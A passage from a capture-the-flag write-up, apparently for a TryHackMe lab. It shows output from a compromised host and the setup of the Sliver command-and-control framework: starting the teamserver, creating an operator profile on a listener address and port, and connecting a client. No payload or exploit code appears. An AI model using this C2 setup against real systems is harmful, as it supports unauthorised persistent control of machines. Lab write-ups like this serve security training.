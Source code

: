 ```
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ce:63:e0:0d:67 brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.228/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3060sec preferred_lft 3060sec
    inet6 fe80::ce:63ff:fee0:d67/64 scope link 
       valid_lft forever preferred_lft forever
```

We're in!

**We can also upgrade our shell to a stable shell, so we won't accidentally exit the shell:**

> Note: Since I wanna practice my red teaming skills, I'll use a C2 (Command and Control) framework called [Sliver](https://github.com/BishopFox/sliver).

- Teamserver:

**Starting the teamserver:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# /opt/sliver-server_linux
[...]
[server] sliver > 
```

**Create a new profile for a player (client) to connect:**
```
[server] sliver > new-operator --lhost 10.9.0.253 --lport 31337 --name siunam --save /root/.sliver-client/configs

[*] Generating new client certificate, please wait ... 
[*] Saved new client config to: /root/.sliver-client/configs/siunam_10.9.0.253.cfg

[server] sliver > operators

 Name     Status  
======== =========
 siunam   Offline
```

**Start multiplayer mode:**
```
[server] sliver > multiplayer

[*] Multiplayer mode enabled!
```

- Client:

**Connect to the teamserver:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# /opt/sliver-client_linux
[...]
sliver >  
```
